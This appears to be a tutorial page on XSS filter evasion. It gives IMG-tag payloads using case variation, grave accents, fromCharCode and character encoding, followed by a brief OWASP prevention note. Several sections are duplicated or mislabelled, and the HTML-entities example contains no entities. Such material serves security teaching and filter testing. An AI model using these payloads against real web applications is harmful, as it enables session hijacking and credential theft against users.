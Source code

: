 
---

# Advanced Cross Site Script filter bypassing #

---


Cross-Site Scripting attacks are a type of injection problem, in which malicious scripts are injected into the otherwise benign and trusted web sites. Cross-site scripting (XSS) attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user in the output it generates without validating or encoding it.

## What really is an XSS ##

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by your browser and used with that site. These scripts can even rewrite the content of the HTML page.

## What someone can do with XSS ##

Stealing the session cookie is not the only way to take advantage of an XSS attack, so with an XSS attack someone under certain conditions can:

  1. Hijack the user session and cause user identity theft (which by the way is none traceable).
  1. Inject a Trojan Web Form (e.g. using Cascading Style Sheets) and steal user credentials.
  1. Redirect users to phishing sites and steal user personal data.
  1. Execute a Web Site function (e.g. cause an attack similar to a CSRF attack).
  1. Bounce to the server a malicious payload (e.g. an executable, vbs or .bat file) and compromise the users PC/Laptop.
  1. Redirect the user browser to a BEEF (Browser Exploitation Framework) link and take over the user browser.
  1. Do a File Download injection using HTTP Header Injection (I consider Header Injection to be in the same category with XSS injection)

A conceptual representation of this type if attack can be found here:

![http://2.bp.blogspot.com/-4S90v3P19-c/T4aEmiazJWI/AAAAAAAAAL4/TIg8NqCTDss/s1600/Drawing1.png](http://2.bp.blogspot.com/-4S90v3P19-c/T4aEmiazJWI/AAAAAAAAAL4/TIg8NqCTDss/s1600/Drawing1.png)


**Note:** In this conceptual representation of the attack a malicious user sent an e-mail with the infected URL to the victim user and the victim user clicks on the URL.  This type of attack can also become more effective when Script Injection is stored into the vulnerable Web Application.

## Using case variation ##

Case variation can be used to bypass dummy filters:


---

```
<IMG SRC=JaVaScRiPt:alert('XSS')>
```

---


**Note:** This I personally have never seen a case sensitive filter.

## Using the JavaScript directive ##

Image XSS using the JavaScript directive (IE7.0 doesn't support the JavaScript directive in context of an image, but it does in other contexts, but the following show the principles that would work in other tags as well:


---

```
<IMG SRC="javascript:alert('XSS');">
```

---


## Using grave accent obfuscation ##

If you need to use both double and single quotes you can use a grave accent to encapsulate the JavaScript string - this is also useful because lots of cross site scripting filters don't know about grave accents:


---

```
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
```

---


## Using malformed IMG tags ##

Image XSS using the JavaScript directive (IE7.0 doesn't support the JavaScript directive in context of an image, but it does in other contexts, but the following show the principles that would work in other tags as well:


---

```
<IMG SRC="javascript:alert('XSS');">
```

---


## Using the fromCharCode ##

if no quotes of any kind are allowed you can eval() a fromCharCode in JavaScript to create any XSS vector you need:


---

```
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
```

---


## Using UTF-8 unicode encoding ##

All of the XSS examples that use a javascript: directive inside of an <IMG tag will not work in Firefox or Netscape 8.1+ in the Gecko rendering engine mode).


---

```
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
&#39;&#88;&#83;&#83;&#39;&#41;>
```

---


## Using HTML entities ##

The semicolons are required for this to work:


---

```
<IMG SRC=javascript:alert("XSS")>
```

---


## Preventing XSS ##

The OWASP ESAPI project has produced a set of reusable security components in several languages, including validation and escaping routines to prevent parameter tampering and the injection of XSS attacks. In addition, the OWASP WebGoat Project training application has lessons on Cross-Site Scripting and data encoding. More XSS you can find in The Teenage Mutant Ninja Turtle Project.